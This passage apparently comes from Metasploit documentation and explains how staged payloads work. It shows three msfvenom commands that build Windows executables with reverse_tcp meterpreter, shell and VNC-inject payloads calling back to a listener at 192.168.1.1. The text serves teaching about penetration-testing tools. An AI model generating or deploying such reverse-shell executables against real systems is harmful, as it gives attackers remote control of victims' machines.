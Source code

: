 # How Payloads Work

## Delivering stages
1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```

